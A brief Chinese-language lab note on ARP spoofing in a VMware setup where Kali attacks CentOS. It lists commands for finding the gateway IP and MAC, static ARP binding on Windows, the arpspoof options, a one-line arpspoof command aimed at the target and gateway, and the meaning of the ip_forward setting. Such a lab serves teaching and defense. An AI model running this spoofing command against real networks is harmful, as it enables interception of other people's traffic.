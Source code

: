 Linux 使用 `ip r` 或 `ip route` 查看网关 IP 地址  
Linux 使用 `arp` 通过网关 IP 得到网关 MAC 地址  
Linux 使用 `arp -a` 获取网关 IP 和 MAC  

Windows 使用 `ipconfig /all` 获取默认网关 IP 地址  
Windows 使用 `arp -a` 可以通过网关 IP 查询 MAC 地址  
Windows 使用 `arp -a | findstr 192.168.178.2` 过滤查看 IP 的 MAC  
Windows 使用 `arp -s <IP> <MAC>` 将 MAC 与 IP 进行绑定(重启失效)  

kali 使用 arpspoof 查看选项和参数
arpspoof:
-i 指定网卡
-c 攻击机的 IP
-t 目标机器的 IP
-r 网关 IP

网络环境
实验网络环境为 vmware 虚拟机, 使用 kali 攻击 CentOS
CentOS:     192.168.178.136     00:50:56:23:b5:73
kali:       192.168.178.141     00:0c:29:d1:2d:92
_gateway    192.168.178.2       00:50:56:f8:d6:1d

在 kali 运行 arpspoof -i eth0 -r 192.168.178.2 -t 192.168.178.136
在 CentOS 上查看网关 MAC 地址检测是否攻击成功

/proc/sys/net/ipv4/ip_forward 文件:
0 -> 不允许转发
1 -> 允许转发

